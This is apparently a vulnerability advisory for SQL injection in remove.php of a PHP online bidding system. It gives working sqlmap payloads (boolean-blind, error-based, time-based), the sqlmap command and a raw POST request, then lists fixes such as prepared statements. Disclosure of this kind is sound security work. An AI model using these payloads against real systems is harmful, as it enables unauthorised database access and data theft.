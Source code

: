 # ONLINE BIDDING SYSTEM Project V1.0 remove.php SQL injection

# NAME OF AFFECTED PRODUCT(S)

- ONLINE BIDDING SYSTEM

## Vendor Homepage

- [Online Bidding System In PHP With Source Code - Source Code & Projects](https://code-projects.org/online-bidding-system-in-php-with-source-code/)

# AFFECTED AND/OR FIXED VERSION(S)

## submitter

 - Chenguang Wang-Zhihong Tian-GuangZhou University
 - Zhihong Tian-GuangZhou University

## VERSION(S)

- V1.0

## Software Link

- [Online Bidding System In PHP With Source Code - Source Code & Projects](https://code-projects.org/online-bidding-system-in-php-with-source-code/)

# PROBLEM TYPE

## Vulnerability Type

- SQL injection

## Root Cause

- A SQL injection vulnerability was found in the 'remove.php' file of the 'ONLINE BIDDING SYSTEM' project. The reason for this issue is that attackers inject malicious code from the parameter "id" and use it directly in SQL queries without the need for appropriate cleaning or validation. This allows attackers to forge input values, thereby manipulating SQL queries and performing unauthorized operations.

## Impact

- Attackers can exploit this SQL injection vulnerability to achieve unauthorized database access, sensitive data leakage, data tampering, comprehensive system control, and even service interruption, posing a serious threat to system security and business continuity.

# DESCRIPTION

- During the security review of "ONLINE BIDDING SYSTEM", discovered a critical SQL injection vulnerability in the "remove.php" file. This vulnerability stems from insufficient user input validation of the 'id' parameter, allowing attackers to inject malicious SQL queries. Therefore, attackers can gain unauthorized access to databases, modify or delete data, and access sensitive information. Immediate remedial measures are needed to ensure system security and protect data integrity.

# No login or authorization is required to exploit this vulnerability

# Vulnerability details and POC

## Vulnerability type:

- error-based
- time-based blind
- boolean-based blind

## Vulnerability location:

- 'id' parameter

## Payload:

```
Parameter: #1* ((custom) POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: id=1' AND 4237=(SELECT (CASE WHEN (4237=4237) THEN 4237 ELSE (SELECT 5417 UNION SELECT 1249) END))-- -
    Vector: AND [RANDNUM]=(SELECT (CASE WHEN ([INFERENCE]) THEN [RANDNUM] ELSE (SELECT [RANDNUM1] UNION SELECT [RANDNUM2]) END))[GENERIC_SQL_COMMENT]

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: id=1' AND GTID_SUBSET(CONCAT(0x71706b6271,(SELECT (ELT(6564=6564,1))),0x7162627171),6564)-- FIiT
    Vector: AND GTID_SUBSET(CONCAT('[DELIMITER_START]',([QUERY]),'[DELIMITER_STOP]'),[RANDNUM])

    Type: time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind (query SLEEP)
    Payload: id=1' OR (SELECT 9221 FROM (SELECT(SLEEP(5)))XmQF)-- oabl
    Vector: OR (SELECT [RANDNUM] FROM (SELECT(SLEEP([SLEEPTIME]-(IF([INFERENCE],0,[SLEEPTIME])))))[RANDSTR])
```

![image-20250914142014214](img/image-20250914142014214.png)

## The following are screenshots of some specific information obtained from testing and running with the sqlmap tool:

```
python sqlmap.py -r data.txt --dbs -v 3 --batch --level 5
//data.txt
POST /administrator/remove.php HTTP/1.1
Host: 10.151.167.210:8886
Content-Length: 34
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.151.167.210:8886
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.151.167.210:8886/administrator/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=860bf9sue3vca48n2eir3ln4j7
Connection: keep-alive

id=1*
```

# Attack results

![image-20250914142034104](img/image-20250914142034104.png)

# Suggested repair



1. **Use prepared statements and parameter binding:** Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered by the user is treated as pure data and will not be interpreted as SQL code.
2. **Input validation and filtering:** Strictly validate and filter user input data to ensure it conforms to the expected format.
3. **Minimize database user permissions:** Ensure that the account used to connect to the database has the minimum necessary permissions. Avoid using accounts with advanced permissions (such as' root 'or' admin ') for daily operations.
4. **Regular security audits:** Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.